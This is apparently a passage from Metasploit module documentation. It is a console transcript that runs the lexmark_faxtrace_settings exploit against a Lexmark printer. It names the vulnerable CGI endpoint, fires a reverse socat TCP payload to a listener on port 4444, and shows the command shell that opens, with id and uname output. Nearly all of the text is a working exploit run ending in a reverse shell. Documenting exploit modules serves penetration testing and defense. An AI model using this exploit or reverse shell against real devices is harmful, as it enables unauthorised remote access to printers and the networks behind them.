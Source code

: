 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf exploit(linux/http/lexmark_faxtrace_settings) > run

[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Waking up the printer ...
[+] The target appears to be vulnerable. The vulnerable endpoint "/cgi-bin/fax_change_faxtrace_settings" is reachable
[*] Executing Unix (In-Memory) for cmd/unix/reverse_socat_tcp
[*] Command shell session 5 opened (192.168.1.72:4444 -> 192.168.1.71:54456) at 2023-08-30 19:51:57 -0400


Shell Banner:
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$
-----


httpd@ET788C773C36F9:/usr/share/web/cgi-bin$ id
id
uid=985(httpd) gid=982(httpd) groups=982(httpd)
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$ uname -a
uname -a
Linux ET788C773C36F9 4.17.19-yocto-standard-74b7175b2a3452f756ffa76f750e50db #1 SMP PREEMPT Mon Jun 29 19:46:01 UTC 2020 armv7l GNU/Linux
httpd@ET788C773C36F9:/usr/share/web/cgi-bin$
```
